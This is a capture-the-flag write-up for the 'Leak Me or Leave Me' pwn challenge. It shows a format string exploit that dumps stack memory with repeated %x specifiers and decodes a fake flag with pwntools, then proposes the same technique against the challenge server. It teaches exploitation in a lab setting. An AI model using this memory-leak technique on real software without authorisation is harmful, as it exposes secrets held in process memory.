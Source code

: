 Leak Me or Leave Me Pwn Challenge - Break_In CTF

```
# ./leak                                                                   
flag file seems to be missing.contact administrator .
# echo 'FL4G{fake_flag_for_test}' > flag.txt
```

```
# ./leak 
LEAK ME OR LEAVE ME
> 
```
From the name of the challenge, we can assume that it is about Format String Vulnerability. We can exploit it to leak memory from the stack by providing the "%x" format specifier

```
# ./leak
LEAK ME OR LEAVE ME
> %x %x
80 f7f055c0
```

Okay it's working. So I analyzed the binary with radare2. Disassembly of the main function shows
```
<----------------------------------------------------SNIP----------------------------------------------------->
0x0804861e      8d8390e7ffff   lea eax, dword [ebx - 0x1870]
0x0804861d      50             push eax                    ; const char *mode
0x0804861e      8d8392e7ffff   lea eax, dword [ebx - 0x186e]
0x08048624      50             push eax                    ; const char *filename
0x08048625      e866feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
<----------------------------------------------------SNIP----------------------------------------------------->
```
I guess it opens the flag.txt file. So the file contents must be placed on the stack. Leaking multiple address might leak it's content

```
# python -c 'print "%x " * 50' | ./leak                                                                                                               
LEAK ME OR LEAVE ME         
> 80 f7f745c0 0 0 ffe85fcc 8cc2160 47344c46 6b61667b 6c665f65 665f6761 745f726f 7d747365 f63d000a f7fc1b0c ffe86064 80482e8 f7fa2936 804823c ffe8606c 
f7fc1ab0 1 f7f92410 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 2078
2520 25207825 78252078 20782520 25207825 78252078 
```
The last addresses are the hex of "%x " input we provided. I noticed the seventh address 47344c46 immediately and guess it is the "FL4G" text. I used python to confirm.

```python
Python 3.7.5 (default, Oct 27 2019, 15:43:29) 
[GCC 9.2.1 20191022] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *                                                                                                                                
>>> out = "47344c46 6b61667b 6c665f65 665f6761 745f726f 7d747365 f63d000a".split(" ")                                                                
>>> for o in out:
...     addr = p32(int('0x'+o, 16))
...     print(addr.decode(), end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 3, in <module>
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf6 in position 3: invalid start byte
FL4G{fake_flag_for_test}>>>
```
Yes it is indeed our fake flag. So we can use the same technique against server to get the flag
